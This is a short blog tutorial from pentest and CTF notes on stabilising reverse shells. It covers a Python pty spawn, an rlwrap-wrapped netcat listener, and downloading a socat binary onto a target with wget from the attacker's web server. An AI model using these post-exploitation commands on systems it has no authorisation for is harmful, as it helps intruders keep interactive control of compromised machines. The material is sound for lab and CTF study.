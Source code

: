+++
title = 'Stabilizing Shells'
date = 2023-09-26T16:00:46+08:00
draft = false
tags = ["Shell Stabilization", "Reverse Shell", "Bind Shell"]
+++

### Introduction
Spawning shells in CTFs and pentesting is an extremely common task and we don't want to have to deal getting disconnected from target, as well as the inconvenience of using a shell with limited shortcuts and controls. Here are 3 methods to stabilize your shell. Personally, I like to use Technique 1 in CTFs.

### Technique 1: Python 
Applicable to on Linux, since they almost always have Python installed. 
1. `python -c 'import pty;pty.spawn("/bin/bash")'`, which uses Python to spawn a better featured bash shell;
2. `export TERM=xterm` -- this will give us access to term commands such as `clear`.
3. Finally (and most importantly) we will background the shell using Ctrl + Z. Back in our own terminal we use `stty raw -echo; fg`. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.

Note that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type `reset` and press enter.


### Technique 2: rlwrap
rlwrap is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell.
To use rlwrap, we invoke a slightly different listener:
`rlwrap nc -lvnp <port>`

When dealing with a Linux target, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with Ctrl + Z, then use `stty raw -echo; fg` to stabilise and re-enter the shell. This is also great to use for Windows shells.

### Technique 3: [[socat]]
Limited to Linux; won't be more stable on Windows machine. 

To accomplish this method of stabilisation we would first transfer a [socat static compiled binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true) (a version of the program compiled to have no dependencies) up to the target machine. A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary (`sudo python3 -m http.server 80`), then, on the target machine, using the netcat shell to download the file. On Linux this would be accomplished with curl or wget (`wget <LOCAL-IP>/socat -O /tmp/socat`).

